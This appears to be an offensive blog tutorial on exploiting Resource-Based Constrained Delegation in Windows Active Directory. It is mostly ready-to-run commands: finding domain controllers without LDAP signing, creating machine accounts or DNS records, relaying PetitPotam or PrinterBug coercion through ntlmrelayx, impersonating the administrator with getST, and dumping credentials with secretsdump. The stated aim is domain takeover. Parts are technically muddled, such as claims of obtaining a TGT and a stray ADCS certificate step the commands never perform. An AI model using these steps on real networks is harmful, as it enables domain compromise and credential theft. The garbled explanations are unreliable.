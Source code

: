 
# Resource-Based Constrained Delegation (RBCD) Exploitation

## Initial Engagement

### Introduction

 In this article, we'll delve into the world of Resource-Based Constrained Delegation (RBCD), a Windows-specific protocol that can be exploited for unauthorized access and understand how  to perform RBCD to gain elevated privileges or even domain administrator rights.

### What is RBCD?

RBCD is a Kerberos-based protocol that allows a service on a domain-joined computer to obtain a ticket-granting ticket (TGT) for a specified user account. This process is constrained by the permissions of the service, so the TGT obtained is limited in its scope and can't be used for unauthorized access. (We'll see about that)

### Why Should You Care?

 Understanding how to exploit RBCD vulnerabilities to gain unauthorized access to sensitive resources can add more to your toolkit. Understanding how constrain and coercion works you'll be better equipped to identify and mitigate (or exploit) these risks, ensuring the security of your organization's infrastructure.

## The How-To Guide

RBDC exploitation needs an specific set off conditions. I'll add a list of those conditions and we'll be going through it along the article so don't worry if you don't get something right away just keep reading.

- A domain controller with ldap signing disabled or not enforced
- A victim server with Web-based Distributed Authoring and Versioning (Webdav) enabled
- A domain user account with Service Principal Name (SPN) and delegation permissions 

That's good! Enough talk lets get in to the exploitation.
### Step 1: Identify Potential Targets

To exploit an RBCD vulnerability, you need to find a target that has not implemented proper security measures. we are looking for domain controllers with ldap signing disabled NetExec is our friend here.

```
nxc ldap <IP/Scope> -u <username> -p <password> -d <domain.com> -M ldap-checker
```

after we get our vulnerable domain controller we need to identify a machine to attack this is going to be our target this machine has to have webdav enabled and be vulnerable to two authentication coercion we are going to look for MS-EFSRPC (PetitPotam) or MS-RPRN (PrinterBug).

```
nxc smb <IP/Scope> -u <username> -p <password> -d <domain.com> -M coerce_plus
```

Now we got our targets, a vulnerable domain controller to perform the relay and a vulnerable machine to perform the coercion.
### Step 2: Setup our machine

Before proceeding with the exploit you'll need an account with SPN, if you're lucky enough your account already have an SPN if you don't have one there are a couple of ways to get one.

1. **Modify DNS record**
2. **Create a Machine account**

##### Modify DNS Record 

To modify the DNS record we can use a tool called `dnstool.py` that is part of the `krbrelayx` repository by the incredible Dirkjanm.

```
dnstool.py -u domain.com\username -p <password> -a add -t A -r <machinename> -d your_ip dns_server_ip
```

Let break this command a little:

- -a add : Action to take on the dns server
- -t A : Type of record 
- -r : Record to add (the name you want to use)
- -d : your attacker machine ip followed by the dns server ip

if this succeeds congrats you can continue with the relay if you don't have permissions maybe you can create a machine account.

##### Create a machine account

First of all we need to check if we have permissions to create machine accounts lets pull nxc again and check for the domain controller machine account quota (MAQ).

```
nxc ldap <IP/Scope> -u <username> -p <password> -d <domain.com> -M maq
```

if we have a maq above 0 we can attemp to create a machine account all machine accounts have SPN as default

to create a machine account we are going to use a tool from the Impacket Repo called `addcomputer.py`.

```
addcomputer.py -method LDAPS -computer-name 'COMPUTERNAME$' -computer-pass 'Password' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\user:password'
```

- `-dc-host` : hostname of the domain controller.
- `-domain-netbios`: the domain's name where the new computer account will be added. 
- `-computer-name`: the name of the new computer account. 
- `-computer-pass`: password of the new computer account. 
- `-method`: the method to add the new computer account. It can be:
	- SAMR to add the account via SMB 
	- LDAPS. 
	(This is important the default method is SAMR and with SAMR the account will be created without SPNs)

if this succeeds congrats you can continue with the relay.
### Step 3: Configure and Launch the RBCD Exploit

RBCD is a relay attack we are going to relay the authentication from one machine to our own using coercion then we are going to relay that authentication attempt to a ADCS and get the certificate then we use that certificate to impersonate the victim account and get the kerberos ticket(TGT).

![Relay.png](images/relay.png)
 
Lets start by setting up the relay. We are going to use another Impacket tool called `ntlmrelayx.py`.

```
./ntlmrelayx.py -smb2support -t ldaps://dc.domain.com --http-port 8080 --delegate-access --escalate-user SPNusername --no-dump --no-acl --no-da --remove-mic
```

Let `ntlmrelayx.py` running and attempt authentication. we have two ways for the coercion: 

- MS-EFSRPC (PetitPotam)  
- MS-RPRN (PrinterBug)

###### MS-EFSRPC (PetitPotam)
```
./PetitPotam.py -d episourcein.episource.com -u 'user' -p 'password' SPNUsername@8080/path victim.domain.com
```

###### MS-RPRN (PrinterBug)

```
./printerbug.py domain.com/user:password@victim.domain.com SPNUsername@8080/path
```

Then we are going to request the Impersonated Service Ticket for this we are going to use another impacket tool called `getSt.py`.

```
./getST.py -spn cifs/victim.domain.com -impersonate 'administrator' domain.com/SPNusername:'password' -dc-ip <domain_ip> 

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[-] CCache file is not found. Skipping... 
[*] Getting TGT for user
[*] Impersonating ldap.
```

Then we just have one step left retrieve the ticket stored in cache

```
export KRB5CCNAME=/yourpath/domainAdmin.ccache
```
### Step 4: Profit

Now you can use this kerberos credentials to do whatever you want enumerate, dump creds, etc ...

```
nxc smb victim.domain.com --use-kcache --sam 
```

```
./secretsdump.py -k -no-pass victim.domain.com
```

## Conclusion

Hope this guide help you get some Domain Accounts, By understanding how you can misuse RBCD vulnerabilities, you'll be better equipped to pawn more things. Keep Hacking!
